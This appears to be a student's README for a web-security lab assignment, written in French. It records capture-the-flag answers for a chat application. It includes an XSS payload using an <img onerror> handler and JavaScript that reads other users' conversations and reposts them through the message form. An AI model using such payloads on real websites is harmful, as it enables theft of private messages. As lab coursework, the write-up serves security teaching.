 [![Review Assignment Due Date](https://classroom.github.com/assets/deadline-readme-button-24ddc0f5d75046c5622901739e7c5dd533143b0c8e959d652212380cedb1ea36.svg)](https://classroom.github.com/a/1vxbBob6)
# 7 Security (avec le login de Piemontesi Gwendal)

Énoncé [ici](https://web-classroom.github.io/labos/labo-7-security.html)

## Partie 1

### Flag 1

**Flag**: 18b36773b7fdc1b0

**Exploit**:   
Faille XSS dans le champ de saisie du message à envoyer. Nous avons utilisé une image pour exploiter cette faille et injecter du code JavaScript.

```html
<img
  src="whatever"
  onerror="CODE_JAVASCRIPT"
/>
```

```javascript
const conversations = Array.from(document.getElementById('conversations-list').children);
const trumpConversations = conversations
    .filter(c => c.textContent.includes('Donald Trump'))
    .map(c => c.id.split('conversation')[1]);
trumpConversations.forEach(conversationId => {
    fetch(`/conversation/${conversationId}`)
        .then(response => response.text())
        .then(messageText => {
            document.getElementById('message').value = messageText;
            document.getElementById('messageButton').click();
        });
});
```

### Flag 2

**Flag**: 7455ce65e3344478

**Exploit**:    
Comme pour le flag 1, il y a une faille XSS dans le champ de saisie du message à envoyer. Nous avons également utilisé une image pour exploiter cette faille et injecter le code suivant.

```html
<img
  src="whatever"
  onerror="CODE_JAVASCRIPT"
/>
```
